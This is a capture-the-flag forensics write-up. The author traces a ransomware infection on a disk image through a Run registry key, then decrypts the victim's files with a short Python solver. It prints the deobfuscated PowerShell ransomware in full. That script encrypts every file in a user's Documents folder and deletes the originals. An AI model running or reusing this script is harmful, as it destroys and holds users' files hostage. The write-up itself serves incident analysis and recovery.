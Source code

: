 ## Unsolved

The format of given file is AD1 so we need to check it with FTK Imager.

![image](https://github.com/user-attachments/assets/2106c011-7c08-4a26-83fa-5607aa1864de)

There is non-default user **sand-4ECC834FCF** so I tried to analyze it.
In description '.. when he installs something suddenly his device reboots and his files suddenly disappear .. ', we can assume the ransomware need to reboot/login for got executed. In windows you can set what device will do everytime user got login in Registry Key. 

I used Registry Explorer from [https://ericzimmerman.github.io/#!index.md](https://ericzimmerman.github.io/#!index.md) tool to check on registry HCKU:SOFTWARE\Microsoft\Windows\CurrentVersion\Run for malicious entry via NTUSER.DAT

![image](https://github.com/user-attachments/assets/6c1ba36e-b037-41ca-b6dc-cfc2b13853db)

We can know that there is file named **console.bat** was executed. The content of that file is encoded powershell code.

![image](https://github.com/user-attachments/assets/ffd3caf0-fc14-454c-b14d-28582ce9bf3c)

I used powerdecode tool to decode and deobfuscate it and this is the result.

```poweshell
function Encrypt-File {
    param (
        [string]$sourceFilePath,
        [string]$destFilePath,
        [string]$encryptionKey,
        [string]$initVector
    )
    
    $keyBytes = [System.Text.Encoding]::UTF8.GetBytes($encryptionKey)
    $ivBytes = [System.Text.Encoding]::UTF8.GetBytes($initVector)

    # Validate key length (must be 16, 24, or 32 bytes)
    if ($keyBytes.Length -ne 16 -and $keyBytes.Length -ne 24 -and $keyBytes.Length -ne 32) {
        throw "ERROR"
    }
    
    # Validate IV length (must be 16 bytes)
    if ($ivBytes.Length -ne 16) {
        throw "ERROR"
    }

    $aes = New-Object "System.Security.Cryptography.AesManaged"
    $aes.Key = $keyBytes
    $aes.IV = $ivBytes
    $aes.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $aes.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7

    $fileContent = [System.IO.File]::ReadAllBytes($sourceFilePath)
    $encryptor = $aes.CreateEncryptor()
    $encryptedContent = $encryptor.TransformFinalBlock($fileContent, 0, $fileContent.Length)

    # Combine IV and encrypted content
    [byte[]] $finalContent = $aes.IV + $encryptedContent
    $aes.Dispose()

    Write-Output $destFilePath
    $result = [System.IO.File]::WriteAllBytes($destFilePath, $finalContent)
    Write-Output "done"
    Remove-Item -Path $sourceFilePath
}

# Main script
$userDocuments = "C:\Users\" + $Env:UserName + "\Documents"
$sourcePath = $userDocuments
$encryptedFilesPath = "C:\Users\" + $Env:UserName + "\AppData\Local\Microsoft\Garage"

# Create directory for encrypted files
try {
    New-Item -Path $encryptedFilesPath -ItemType Directory -ErrorAction Stop
} catch [System.IO.IOException] {
    "Already Exist!"
}

# Registry path where encryption keys are stored
$registryPath = "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\02e7a9afbb77"
$encryptionKey = (Get-ItemProperty -Path $registryPath -Name "59e2beee1b06")."59e2beee1b06"
$initVector = (Get-ItemProperty -Path $registryPath -Name "076a2843f321")."076a2843f321"

Write-Output $encryptionKey

if (-not (Test-Path -Path $registryPath)) {
    New-Item -ItemType Directory -Path $registryPath
}

# Get all files in the Documents folder
$files = Get-ChildItem -Path $sourcePath -File

# Encrypt each file
foreach ($file in $files) {
    $sourceFile = $file.FullName
    $destFile = Join-Path -Path $encryptedFilesPath -ChildPath $file.Name
    Encrypt-File $sourceFile $destFile $encryptionKey $initVector
}

Write-Output "dones"
```

That script encrypt all files from document folder and save it to \AppData\Local\Microsoft\Garage

![image](https://github.com/user-attachments/assets/73ad78b2-a7ea-4c6e-b27c-52ef936e253c)

From the script we can know the encryption method used is AES CBC using key and iv that stored to HKCU:\Software\Microsoft\Windows NT\CurrentVersion\02e7a9afbb77

![image](https://github.com/user-attachments/assets/94f5538e-de4e-44ec-9d98-8b0babfe7366)

Here is the solver I used :

```python
from Crypto.Cipher import AES

file = open('seccreettttt_credentialll_confidentalll_moodd_booossteerrrr.pdf', 'rb').read()
key = b'ea0aaa5d53dddfe1'
iv = file[0:16]
encrypted = file[16:]

cipher = AES.new(key, AES.MODE_CBC, iv)
decrypted = cipher.decrypt(encrypted)

result = open('result.pdf', 'wb').write(decrypted)
```

![image](https://github.com/user-attachments/assets/14e69fd8-a7fb-4bf6-ac97-fab79f814660)

## Flag
gemastik{be_careful_with_what_is_on_the_internet_r4nsom_everywhere}

